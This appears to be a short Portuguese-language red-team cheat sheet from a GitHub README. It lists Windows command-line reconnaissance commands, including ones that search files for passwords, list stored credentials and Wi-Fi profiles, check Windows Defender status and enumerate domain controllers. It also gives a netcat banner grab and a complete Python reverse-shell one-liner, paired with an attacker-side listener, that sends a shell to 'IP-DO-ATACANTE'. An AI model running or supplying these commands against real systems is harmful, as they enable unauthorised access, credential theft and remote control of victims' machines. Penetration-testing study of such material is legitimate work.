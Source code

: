 ### DESTAQUES  
###### BLUE TEAM = https://threathunterplaybook.com/introduction.html  
> [https://github.com/Cyb3rWard0g/HELK]  

###### RED TEAM = https://book.hacktricks.xyz/  
> [https://github.com/outflanknl/RedELK]  

###### MANUAL ASSEMBLY = https://software.intel.com/sites/default/files/managed/39/c5/325462-sdm-vol-1-2abcd-3abcd.pdf  


## REDTEAM  
#### COMANDOS UTEIS DO CMD:  
```
C:/> echo %cd%
C:/> rm /s path_name
C:/> dir /S file.txt
C:/> netstat -ntpl
C:/> tasklist
C:/> tasklist /SVC 
C:/> taskkill -pid PID_NUMBER
C:/> net user administrator
C:/> findstr /C:"password"
C:/> sc query windefend
C:/> netsh advfirewal show currentprofile
C:/> where /R c:\ arquivoQUEprocuro
C:/> whoami /groups
C:/> shutdown /r /t
C:/> execute -f notepad.exe
C:/> netsh wlan show profile
C:/> echo %LOGONSERVER%
C:/> nltest /dclist, nslookup -q=srv _kerberos._tcp
C:/> cmdkey /list
```

#### CABEÇALHOS EM SERVIDORES WEB:  
```
$ nc -v target.com 80
GET / HTTP/1.0
HEAD / HTTP/1.0
OPTIONS / HTTP/1.0
```

#### REVERSE SHELL PYTHON OS.DUP2:  

###### Maquina atacante:
```
$ sudo rlwrap nc -nvlp 443
```

###### Maquina vitima:
> Substitua o IP-DO-ATACANTE para o endereço ip da maquina offensiva.  
```
$ python -c 'import os,socket,subprocess;s=socket.socket();s.connect(("IP-DO-ATACANTE",443));os.dup2(s.fileno(), 0);os.dup2(s.fileno(), 1);os.dup2(s.fileno(), 2);p=subprocess.call(["/bin/sh","-i"]);'
```
